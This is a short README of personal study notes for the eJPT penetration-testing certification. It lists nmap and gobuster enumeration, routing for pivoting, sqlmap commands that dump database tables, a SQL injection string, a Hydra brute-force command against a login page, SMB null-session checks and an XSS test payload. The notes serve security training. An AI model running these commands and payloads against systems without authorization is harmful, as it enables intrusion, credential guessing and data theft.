# eJPT notes
Scripts and notes from eJPT certification 


## Host discovery:
### ```nmap -sn -T4 <IP/24>```     
Discovers all up hosts on network

### ```arp -a```                   
Prints arp table


## Routing/ pivoting:
### ```ip route show```            
Shows current routing table of hosts

### ```route```                   
Similar output as above

### ```ip route add <target network/24> via <IP>``` 
Adds static route to access other network


## Enumeration:
### ```nmap -sV -sC -p- -T4 <IP>``` 
Standard nmap scan to show port services and versions with verbose

### ```nmap -sU -sC -sV -p- -T4 <IP>```   
Same as above but with UDP option

### ```gobuster dir -u http://<IP> -w /usr/share/wordlists/dirb/common.txt```   
Standard Gobuster scan used


## Sqlmap:
### ```sqlmap -u "http://<URL>/" -D <database> --tables```
### ```sqlmap -u "http://<URL>/" -D <database> -T <table> --columns```
### ```sqlmap -u "http://<URL>/" -D <database> -T <table> --dump```

### ```‘ or 1=1; – -```


## Hydra
### ```hydra <http://<URL>> "/login.php:username=^USER^&password=^PASS^:invalid credentials" -L usernames.txt -P passwords.txt -f -V```


## Burpsuite
### ```Setup burp on browser: HTTP Proxy: 127.0.0.1	Port: 8080```


## XSS
### ```<script>alert(1)</script>```
Checks for XSS


## ftp
### ```ftp <IP>```


## SMB
### ```smbclient -L //<IP> -N```
Checks for available shares

### ```smbclient //<IP>/IPC$ -N```
Connecting to a share

### ```enum4linux -a <IP>```

## Other tools that I forgot to take notes on during the test:
### Metasploit
### Wireshark
### John the Ripper

